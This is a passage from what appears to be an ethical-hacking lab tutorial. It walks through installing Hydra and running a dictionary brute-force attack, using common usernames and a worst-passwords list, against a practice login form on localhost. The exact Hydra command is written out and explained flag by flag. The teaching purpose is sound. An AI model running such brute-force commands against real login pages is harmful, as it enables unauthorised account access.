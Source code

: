 ```bash
head -n 10 500-worst-passwords.txt
```

This password display the first 10 password

## Setting Up Hydra
Now that we have our list of passwords, let's set up Hydra, the tool we'll use to automate our brute-force attack simulation.

First, let's create a file with usernames to try:
```bash
cd ~/project
echo -e "admin\nuser\nroot" > ~/project/usernames.txt
cat ~/project/usernames.txt
```

This creates a file with three common usernames: admin, user, and root. We'll use this file in our Hydra command later.

Now, let's install Hydra. Run these commands:

```bash
sudo apt-get update
sudo apt-get install hydra -y
```

Hydra is a popular tool used by security professionals and ethical hackers to test password security. It can perform rapid dictionary attacks against various network services. It works by taking a list of usernames and a list of passwords, then systematically trying each combination on the target system.

Once the installation is complete, you can check that Hydra is installed correctly by running:

```bash
hydra -h
```

## Using Hydra for Password Cracking

Now that we have Hydra installed and our password list ready, let's use it to simulate a brute-force attack on our practice website.

Run the following Hydra command:

```bash
hydra -L ~/project/usernames.txt -P ~/project/500-worst-passwords.txt localhost -s 8080 http-post-form "/:username=^USER^&password=^PASS^:Invalid username or password" -o ~/project/hydra_results.txt
```
Let break down this command:
- hydra: The name of the tool we're using.
- -L ~/project/usernames.txt: Use this list of usernames.
- -P ~/project/500-worst-passwords.txt: Use this list of passwords.
- localhost -s 8080: The address of the website we're testing.
- "/:username=^USER^&password=^PASS^:Invalid username or password": Tells Hydra how to interact with the login form.
- -o ~/project/hydra_results.txt: Save the results to this file.

